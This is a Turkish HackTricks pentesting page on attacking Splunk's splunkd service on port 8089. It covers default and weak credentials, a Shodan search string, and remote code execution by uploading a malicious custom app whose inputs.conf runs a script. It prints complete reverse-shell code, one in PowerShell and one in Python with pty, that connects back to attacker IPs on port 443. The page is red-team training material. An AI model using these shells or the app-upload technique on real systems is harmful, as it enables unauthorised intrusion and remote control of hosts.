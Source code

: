 # 8089 - Splunkd'yi Pentest Etme

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


## **Temel Bilgiler**

* Veri toplama, analiz ve görselleştirme için kullanılan log analitik aracı
* Güvenlik izleme ve iş analitiğinde yaygın olarak kullanılır
* Varsayılan portlar:
* Web sunucusu: 8000
* Splunkd servisi: 8089

### Zafiyet Vektörleri:

1. Ücretsiz Sürüm İstismarı

* Deneme sürümü 60 gün sonra otomatik olarak ücretsiz sürüme dönüşür
* Ücretsiz sürüm kimlik doğrulama eksikliği taşır
* Yönetilmediğinde potansiyel güvenlik riski
* Yöneticiler güvenlik etkilerini gözden kaçırabilir

2. Kimlik Bilgisi Zayıflıkları

* Eski sürümler: Varsayılan kimlik bilgileri `admin:changeme`
* Yeni sürümler: Kurulum sırasında ayarlanan kimlik bilgileri
* Zayıf şifre kullanma potansiyeli (örn., `admin`, `Welcome`, `Password123`)

3. Uzaktan Kod Çalıştırma Fırsatları

* Birden fazla kod çalıştırma yöntemi:
* Sunucu tarafı Django uygulamaları
* REST uç noktaları
* Scriptlenmiş girdiler
* Uyarı scriptleri
* Çoklu platform desteği (Windows/Linux)
* Scriptlenmiş girdiler çalıştırabilir:
* Bash scriptleri
* PowerShell scriptleri
* Batch scriptleri

Ana İstismar Potansiyeli:

* Hassas veri depolama
* Ücretsiz sürümde kimlik doğrulama eksikliği
* Potansiyel uzaktan kod çalıştırma için birden fazla vektör
* Sistem ihlali için scriptlenmiş girdilerin kullanılma olasılığı

### Shodan

* `Splunk build`

## RCE

### Özel Uygulama Oluşturma

Splunk, özel uygulama dağıtımı aracılığıyla uzaktan kod çalıştırma için sofistike bir yöntem sunar ve çapraz platform scriptleme yeteneklerinden yararlanır. Temel istismar tekniği, hem Windows hem de Linux sistemlerinde ters shell'ler çalıştırabilen kötü niyetli bir uygulama oluşturmaya dayanır.

Özel bir uygulama **Python, Batch, Bash veya PowerShell scriptleri** çalıştırabilir. Ayrıca, **Splunk ile Python yüklü gelir**, bu nedenle **Windows** sistemlerinde bile python kodu çalıştırabileceksiniz.

[**bu**](https://github.com/0xjpuff/reverse_shell_splunk) örneğini **`bin`** içeren [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) ve [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) için kullanabilirsiniz. Ya da kendi uygulamanızı oluşturabilirsiniz.

İstismar süreci, platformlar arasında tutarlı bir metodoloji izler:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Kritik yapılandırma dosyası `inputs.conf`, scripti şu şekilde etkinleştirir:

* `disabled = 0` ayarlamak
* 10 saniyelik bir yürütme aralığı yapılandırmak
* Scriptin kaynak türünü tanımlamak

Dağıtım basittir:

1. Kötü niyetli uygulama paketini oluşturun
2. Saldırı yapan makinede bir dinleyici (Netcat/socat) kurun
3. Uygulamayı Splunk arayüzü aracılığıyla yükleyin
4. Yükleme sırasında otomatik script yürütmesini tetikleyin

Örnek Windows PowerShell ters shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Örnek Linux Python ters kabuk:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Yetki Yükseltme

Aşağıdaki sayfada bu hizmetin nasıl kötüye kullanılabileceği, yetkilerin nasıl yükseltileceği ve kalıcılığın nasıl elde edileceği açıklanmaktadır:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
